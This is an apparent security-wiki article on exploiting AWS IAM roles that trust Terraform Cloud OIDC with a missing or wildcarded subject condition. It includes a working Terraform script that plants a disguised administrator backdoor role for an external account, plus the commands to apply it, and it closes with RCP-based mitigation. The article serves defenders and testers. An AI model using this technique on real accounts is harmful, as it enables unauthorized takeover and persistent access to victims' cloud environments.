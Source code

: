 ```yaml
---
author_name: Eduard Agavriloae
title: "Exploiting Misconfigured Terraform Cloud OIDC AWS IAM Roles"
description: Discover how to identify and exploit misconfigured AWS IAM roles using Terraform Cloud OIDC
---
```


<div class="grid cards" markdown>

-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess">Addressed AWS defaults risks: OIDC, Terraform and Anonymous to AdministratorAccess</a> by <a href="https://www.linkedin.com/in/eduard-k-agavriloae/">Eduard Agavriloae</a></p>
    <p><img src="/images/researchers/eduard_agavriloae.jpg" alt="Eduard Agavriloae" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

</div>

OIDC stands for OpenID Connect and is an identity layer built on top of the OAuth 2.0 protocol. In AWS, OIDC can be used to federate identities from external identity providers, such as Google, Facebook or Terraform, allowing users to access AWS resources using their existing third-party accounts.

OIDC is useful because instead of creating a set of AWS access keys for a user with administrator permissions and worry that they might get exposed, you can configure an IAM role with OIDC for Terraform Cloud to assume.

![Terraform OIDC Flow](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/0-flow-oidc-terraform.jpeg)

## IAM role misconfiguration using Terraform Cloud OIDC

### Part of the past as of 7th of February

When the issue was first documented, the presence of this misconfiguration was partially facilitated by AWS. If you were to create from the web portal a new IAM role for Terraform Cloud, by default the role's trust policy would look like this:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
       "Effect": "Allow",
       "Principal": {
         "Federated": "arn:aws:iam::<aws-account-id>:oidc-provider/app.terraform.io"
       },
       "Action": "sts:AssumeRoleWithWebIdentity",
       "Condition": {
         "StringEquals": {
            "app.terraform.io:aud": "aws.workload.identity"
         }
       }
    }
  ]
}
```

This trust role policy is missing the "app.terraform.io:sub" condition. Essentially, the present misconfiguration allows anyone to assume this role. As documented by [Terraform Cloud](https://developer.hashicorp.com/terraform/cloud-docs/workspaces/dynamic-provider-credentials/aws-configuration), you need to specify your organization through the subject condition like below to limit the access to this role:

```json
"Condition": {
    "StringEquals": {
      "app.terraform.io:aud": "aws.workload.identity"
    },
    "StringLike": {
      "app.terraform.io:sub": "organization:<your-terraform-organization>:project:<project>:workspace:<workspace>:run_phase:<run_phase>"
    }
}
```

Well, AWS made some changes and now they require from the start to specify the Organization, Project, Workspace, and Run Phase. Even more, now you can't create Terraform Cloud OIDC roles that don't have the subject condition.

![Configuration Web Console](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/1-engineer-configuration.png)

And for anyone who had a role for Terraform Cloud without the subject, on 8th of November 2024 AWS sent a notification that announced two things:

- Starting 7th of November 2024 you will not be able to create new Terraform Cloud roles without the subject condition
- Starting 7th of February 2025 the subject condition will be enforced for these roles (so most likely the misconfigured roles will not work anymore afterwards)   

![Configuration Web Console](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/3-notification-aws.jpeg)

So while you might still be able to find roles misconfigured like this (without the subject condition), just be aware that the attack against it most likely will not work starting from 7th of February 2025.

Can you still exploit misconfigured Terraform Cloud OIDC roles? Yes.

### The present misconfiguration

These roles can still be misconfigured. All it takes is an asterisks in the organization's name.

![Configuration Web Console](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/2-engineer-role.png)

So let's say we identified a role with the next trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "arn:aws:iam::259230201556:oidc-provider/app.terraform.io"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "app.terraform.io:aud": "aws.workload.identity"
                },
                "StringLike": {
                    "app.terraform.io:sub": "organization:hackingthe*:project:blog:workspace:prod-front-end:run_phase:*"
                }
            }
        }
    ]
}
```

Notice the asterisk from the organization's name. Because the value is `hackingthe*`, we should be able to assume this role as described in the next section.

## Exploitation

Go to [Terraform Cloud](https://app.terraform.io/), create an account (it's free) and:

- Create an organization that follows the mentioned pattern: `hackingthe-*`
- Create a project named `blog`
- Create a workspace named `prod-front-end`

The `run_phase` is usually an asterisk as it's values refer to the stages that occur during a Terraform operation: plan, policy check and apply.

The next step involves configuring the next two variables in Terraform Cloud:

- TFC_AWS_PROVIDER_AUTH: true
    - This will tell Terraform Cloud to authenticate with AWS
- TFC_AWS_RUN_ROLE_ARN: arn:aws:iam::<aws-account-id>:role/<role-name>
    - This will tell Terraform Cloud what role to assume

![Configuration Web Console](../../../images/aws/exploitation/exploiting_misconfigured_terraform_cloud_oidc_aws_iam_role/4-attacker-config.png)


Prepare a Terraform script of your choice. Here is an example that wil create a backdoored role with administrator permissions. Please make sure you are authorized to perform this test.

```text
# here we need to set the the details of our organization
terraform {
  cloud {
    organization = "hackingthe-anything"
    workspaces {
      name = "prod-front-end"
    }
  }
}

# region can be anything if you create only IAM resources
provider "aws" {
  region = "eu-central-1"
}

# create role named "AWSServicesRoleForAutomation" that can be assumed from an external AWS account
resource "aws_iam_role" "create_role" {
  name               = "AWSServicesRoleForAutomation"
  assume_role_policy = jsonencode({
    "Version" : "2012-10-17",
    "Statement": [
      {
        "Effect": "Allow",
        "Principal": {
          "AWS": "arn:aws:iam::<external-aws-account>:root"
        },
        "Action": "sts:AssumeRole",
        "Condition": {}
      }
    ]
  })
}

# attach administrator level permissions to this role
resource "aws_iam_policy_attachment" "create_role_backdoor" {
  name       = "create_role_backdoor"
  roles      = [aws_iam_role.create_role.name]
  policy_arn = "arn:aws:iam::aws:policy/AdministratorAccess"
}
```

Save this to `main.tf`, login in terraform CLI and apply the changes.

```bash
terraform login
terraform init
terraform apply
```

Now the role should be created and you can try to assume it from the external AWS account.

## How to block this attacking using RCPs
Recently, the Resource Control Policy (RCP) examples repository added [examples](https://github.com/aws-samples/resource-control-policy-examples/blob/main/Limit-access-to-trusted-OIDC-identity-providers/Limit-access-to-trusted-OIDC-identity-providers.md#specific-example-controls-for-tenancy-within-multi-tenant-oidc-providers-with-a-shared-issuer-url) on how to block this type of attack using RCPs. The example Resource Control Policy can block an external attacker from assuming your vulnerable role.
